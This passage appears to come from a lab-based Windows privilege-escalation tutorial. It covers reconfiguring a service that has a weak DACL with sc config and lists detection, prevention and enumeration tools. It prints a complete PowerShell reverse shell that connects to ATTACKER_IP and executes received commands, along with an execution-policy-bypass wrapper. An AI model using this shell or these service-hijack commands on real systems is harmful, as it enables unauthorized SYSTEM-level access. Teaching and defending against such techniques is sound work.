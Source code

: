 ## Real-World Example 2: Exploiting Insecure Service Permissions

For a service with insecure DACL:

```cmd
C:\> accesschk64.exe -qlc THMService
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

We can reconfigure it:

```cmd
# Reconfigure service
C:\> sc config THMService binPath= "C:\Users\user\malicious.exe" obj= LocalSystem

# Restart service
C:\> sc stop THMService
C:\> sc start THMService
```

## Detection and Prevention

To prevent service-based privilege escalation:

1. Use quotes for service paths with spaces
2. Restrict write access to service executables and directories
3. Set proper DACLs on services to prevent reconfiguration
4. Run services with least privilege accounts
5. Regularly audit service configurations and permissions

## Alternative Payload Generation (Without msfvenom)

If you don't have access to msfvenom, you can create a simple service executable with C# or PowerShell:

```powershell
# PowerShell reverse shell (save as .ps1)
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",PORT);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();

# Create a .bat wrapper to call PowerShell
echo powershell.exe -ExecutionPolicy Bypass -File C:\path\to\reverse-shell.ps1 > malicious.bat
```

## Additional Tools For Enumeration

- **PowerUp.ps1**: `Invoke-AllChecks` identifies many common service vulnerabilities
- **WinPEAS**: Checks for service misconfigurations automatically
- **ServicePermissionsChecker.ps1**: Custom PowerShell script to check service permissions 